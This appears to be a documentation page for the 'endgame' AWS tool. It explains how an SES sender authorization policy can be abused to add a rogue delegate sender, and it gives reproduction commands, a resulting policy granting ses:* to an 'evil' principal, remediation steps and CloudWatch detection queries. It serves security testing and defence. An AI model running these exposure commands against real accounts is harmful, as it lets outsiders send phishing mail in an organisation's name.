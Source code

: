 # SES Sender Authorization Policies

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

SES Sending Authorization Policies can be used to add a rogue IAM user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html). This can result in a malicous user sending an email on behalf of your organization, which could lead to phishing attacks against customers or employees, as well as a loss of consumer trust and reputation loss.

### How it works

Sending authorization is based on sending authorization policies. If you want to enable a delegate sender to send on your behalf, you create a sending authorization policy and associate the policy to your identity by using the Amazon SES console or the Amazon SES API.

When Amazon SES receives the request to send the email, it checks your identity's policy (if present) to determine if you have authorized **the delegate sender** to send on the identity's behalf. If the delegate sender is authorized, Amazon SES accepts the email.

This can be abused by adding a rogue user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html).

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service ses --name test-resource-exposure.com
```

* To verify that the sender authorization policy has been set to allow actions from the rogue user, run the following command from the victim account:

```bash
aws ses list-identity-policies --identity test-resource-exposure.com
```

The command above will return the following:

```bash
{
    "PolicyNames": [
        "Endgame"
    ]
}
```

* Take the response from the command above - `Endgame` - and list the policy name in the command below

```bash
aws ses get-identity-policies --identity test-resource-exposure.com --policy-names "Endgame"
```

* Observe that the contents match the example shown below

## Example

The policy below allows the Evil Principal (`arn:aws:iam::999988887777:user/evil` access to `ses:*` to the victim resource (`arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com`), indicating a successful compromise.

```json
{
    "Policies": {
        "Endgame": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"}]}"
    }
}

```

## Exploitation

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool.

* **Trusted Accounts Only**: Ensure that SES Authorization Policies only authorize specific delegate senders according to your design.
* **Ensure access is necessary**: For any delegate senders that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to manipulation of your SES Sender Authorization Policies**: Tightly control access to the following IAM actions:
  - [ses:PutIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_PutIdentityPolicy.html): _Adds or updates a sending authorization policy for the specified identity (an email address or a domain)_
  - [ses:DeleteIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_DeleteIdentityPolicy.html): _Deletes the policy associated with the identity_
  - [ses:GetIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_GetIdentityPolicies.html): _Returns the requested sending authorization policies for the given identity (an email address or a domain)_
  - [ses:ListIdentities](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentities.html): _Returns a list containing all of the identities (email addresses and domains) for your AWS account, regardless of verification status	_
  - [ses:ListIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentityPolicies.html): _Returns a list of sending authorization policies that are attached to the given identity (an email address or a domain)_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' and requestParameters.policyName='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-identity-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ses/put-identity-policy.html)

* [Sending Authorization Overview](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-overview.html)

* [Sending Authorization Policy Examples](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-policy-examples.html)
* [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html)
